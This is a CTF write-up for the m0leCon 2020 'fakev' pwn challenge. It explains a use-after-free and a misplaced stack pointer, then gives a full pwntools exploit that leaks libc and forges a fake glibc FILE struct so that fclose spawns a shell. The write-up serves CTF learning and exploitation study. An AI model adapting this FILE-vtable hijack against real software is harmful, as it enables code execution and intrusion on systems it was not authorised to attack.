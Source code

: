 # m0leCon CTF 2020 Teaser

## fakev

This challenge was solved by [@korniltsev](https://ctftime.org/user/54962), [@mostobriv](https://ctftime.org/user/25913), [@n00bie](https://ctftime.org/user/50936) and me.

Writeup will not be super detailed, but rather brief overview of the solution.

`fakev` service allows us to open up to 9 files which are organized into a linked list of the following structure:

```cpp
struct node_t {
    FILE *file;
    struct node_t *next;
};
```

Where `file` is a pointer into the file structure of the corresponding file. Also, we're able to close and read content of these files (write isn't implemented).

Basically, there are 2 vulns. The first one is UAF in reading file content (we can read the file content of the already closed file). The second one is placed inside of `add` function. When we create 9th file, service allocates new `struct node_t` for this file, but doesn't use it. Instead, it assigns stack address into `next` field of the previously opened file:

```cpp
  new_node = (node_t *)malloc(0x10uLL);
  if ( !new_node )
  {
    perror("Couldn't alloc");
    exit(1);
  }
  node->next = (node_t *)&stack;                // set next to stack
  node->next->file = (_QWORD *)fp;
  node->next->next = 0LL;
```

If we can control stack value, then we're able to change `next` into controlled `struct node_t` with controlled `file` field. In `get_int` function input that user supplies is then saved into the global variable (address of this variable is known because of disabled `PIE`). 

Hence, attack vector is the next:

1. Leak libc address (will be explained below)
2. Change `next` field of the last opened file with the controlled one (already explained)
3. Point `file` into global variable which is controlled (already explained)
4. Call `fclose` on the `fake file` and get the shell (will be explained below).

The rest we need to do is to leak libc address and hijack the control flow when `fclose` is called on the fake file struct. Libc leaking can be done by filling up `tcache[0xf0]` and then using the first vuln (UAF in reading) to read content of the freed unsorted bin chunk.

Controlling the program flow after `fclose` is called can be done by forging the vtable of the fake file struct. Of course, we can't just point it to any fake vtable because of `_IO_vtable_check`. Fake vtable should be placed inside of libc vtable section. After searching for the right function, we're faced with `_IO_str_overflow`. Just satisfy the requirements and call arbitrary code with controlled `rdi`.

```python
from pwn import *


def open_file(io, idx, fake_idx=None):
    io.sendlineafter(':', '1')
    if fake_idx is not None:
        io.sendafter(':', fake_idx)
    else:
        io.sendlineafter(':', str(idx))


def read_content(io, idx):
    io.sendlineafter(':', '2')
    io.sendlineafter(':', str(idx))


def close_file(io):
    io.sendlineafter(':', '4')


def main():
    libc = ELF('./libc.so.6')
    io = remote('challs.m0lecon.it', 9013)

    for idx in range(1, 9):
        open_file(io, idx)
    for idx in range(8):
        close_file(io)
    log.info('tcache[0xf0] is filled up')
    
    read_content(io, 1)
    libc_arena = u64(io.recvn(17)[9:])
    libc_base  = libc_arena - 0x3ebca0
    
    log.success('libc_arena @ ' + hex(libc_arena))
    log.success('libc_base  @ ' + hex(libc_base))

    for idx in range(1, 9):
        open_file(io, idx)
    open_file(io, 1)

    vtable  = libc_base + 0x3e82a0
    rdi     = libc_base + next(libc.search('/bin/sh'))
    system  = libc_base + libc.symbols['system']
    
    fake_file = ''
    fake_file += p64(0x2000)        # flags
    fake_file += p64(0)             # _IO_read_ptr
    fake_file += p64(0)             # _IO_read_end
    fake_file += p64(0)             # _IO_read_base
    fake_file += p64(0)             # _IO_write_base
    fake_file += p64((rdi-100)/2)   # _IO_write_ptr
    fake_file += p64(0)             # _IO_write_end
    fake_file += p64(0)             # _IO_buf_base
    fake_file += p64((rdi-100)/2)   # _IO_buf_end
    fake_file += p64(0)             # _IO_save_base
    fake_file += p64(0)             # _IO_backup_base
    fake_file += p64(0)             # _IO_save_end
    fake_file += p64(0)             # _markers
    fake_file += p64(0)             # _chain
    fake_file += p64(0)             # _fileno
    fake_file += '\xff'*8
    fake_file += p64(0)
    fake_file += p64(0x602110)

    fake_file += '\xff'*8
    fake_file += p64(0)
    fake_file += p64(0x602108) # file
    fake_file += p64(0)        # next
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(0)
    fake_file += p64(vtable-0x3a8-0x88) # vtable
    fake_file += p64(system)            # alloc_buffer

    payload = ''.join([
        '4'.ljust(8, '\x00'),
        fake_file
    ]).ljust(0x100, '\x00')
    io.send(payload)
    log.success('embeded fake file struct into linked list')
    log.info('triggering fclose on fake file struct...')
    
    io.sendline('cat flag.txt')

    io.interactive()


if __name__ == '__main__':
    main()
```

> ptm{pl4y1ng_w17h_5t4cks_4nd_f1l3s_f0r_fun_4nd_pr0f}
